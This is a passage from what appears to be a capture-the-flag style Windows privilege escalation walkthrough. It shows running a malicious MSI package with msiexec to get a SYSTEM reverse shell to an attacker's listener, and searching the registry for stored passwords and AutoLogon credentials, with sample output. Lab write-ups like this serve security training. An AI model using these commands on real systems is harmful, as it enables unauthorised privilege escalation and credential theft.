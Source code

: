After starting a listener on our machine we can execute the following on the target machine to get a reverse shell with SYSTEM privileges:

```console
C:\Users\user> msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

### Passwords - Registry

Passwords can usually be found lying around in registries on an average windows machine. It's an excellent resource for those looking to exploit and gain access to said machine. As the task instructs, we can search the registry for keys or values that contain the word "password" using the following command:


```console
C:\Users\user> reg query HKLM /f password /t REG_SZ /s
```

Now, this produces A LOT of output, so we're left with 2 options, first is to maybe find a way to sift through this by some sort of command, or just follow the shortcut provided by the room.

> If you want to save some time, query this specific key to find admin AutoLogon credentials:\
> > `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`

The alternative is to find some way to sift through each of the entries and look for the one containing the admin password (or atleast some sort of password entry).


```console
C:\Users\user> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon
    AutoRestartShell                REG_DWORD    0x1
    Background                      REG_SZ       0 0 0
    CachedLogonsCount               REG_SZ       10
    DebugServerCommand              REG_SZ       no
    DefaultDomainName               REG_SZ
    DefaultUserName                 REG_SZ       admin
    DisableBackButton               REG_DWORD    0x1
    EnableSIHostIntegration         REG_DWORD    0x1
    ForceUnlockLogon                REG_DWORD    0x0
    LegalNoticeCaption              REG_SZ
    LegalNoticeText                 REG_SZ
    PasswordExpiryWarning           REG_DWORD    0x5
    PowerdownAfterShutdown          REG_SZ       0
    PreCreateKnownFolders           REG_SZ       {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk                    REG_SZ       1
    Shell                           REG_SZ       explorer.exe
    ShellCritical                   REG_DWORD    0x0
    ShellInfrastructure             REG_SZ       sihost.exe
    SiHostCritical                  REG_DWORD    0x0
    SiHostReadyTimeOut              REG_DWORD    0x0
    SiHostRestartCountLimit         REG_DWORD    0x0
    SiHostRestartTimeGap            REG_DWORD    0x0
    Userinit                        REG_SZ       C:\Windows\system32\userinit.exe,
    VMApplet                        REG_SZ       SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled             REG_SZ       0
    scremoveoption                  REG_SZ       0
    DisableCAD                      REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x236f172d
    ShutdownFlags                   REG_DWORD    0x7
    AutoAdminLogon                  REG_SZ       0
    AutoLogonSID                    REG_SZ       S-1-5-21-3025105784-3259396213-1915610826-1001
    LastUsedUsername                REG_SZ       admin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\AlternateShells
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\GPExtensions
```